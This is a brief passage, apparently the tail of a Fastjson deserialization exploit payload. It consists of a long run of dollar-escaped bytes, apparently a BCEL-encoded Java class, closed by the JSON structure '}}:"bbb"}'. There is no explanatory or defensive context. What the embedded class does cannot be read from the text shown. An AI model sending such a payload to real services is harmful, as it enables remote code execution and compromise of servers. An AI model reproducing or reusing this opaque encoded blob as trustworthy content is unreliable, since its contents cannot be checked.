$60c$3e$ce$a2$W$e7$Q$c2y$fa$I$bb$8cz$cc$a0$B7$b1$A$3f$93$e5$afh$c2oX$88$df$b1$I$7f$60$J$fe$c2R$d6$82e$ac$L$cb$d9$IVR$c4fv$i$xX$C$abr$edp$86$fc$abl$A$db$b0$9dN$8dl$PE$dcI$d95$b3$jhG$H5P7$5b$80N$e2$95c$90U$e1$3e$e2$F0B$e9$ef$a2$5d$90$f2$f9$T$f7$93$b4$82$b2$fa$F$bbi$tQNYt$91T$a6$cc$$a$P$e5_I$f9$5d$c4$5e$f4$40$a1$e8A$ec$c3$D$U$ad$97$fe$b7$np$8b$S$ae$92$d0$t$e1A$J$fb$L$d4$df$f8$fb$7e$J$D$40$d5$zB$89$60$930$Y$a4$M$P$e4$da$fb$e0$3f$d6$f9d$8f$f3$K$A$A
"
        }
    }:"bbb"
}
```


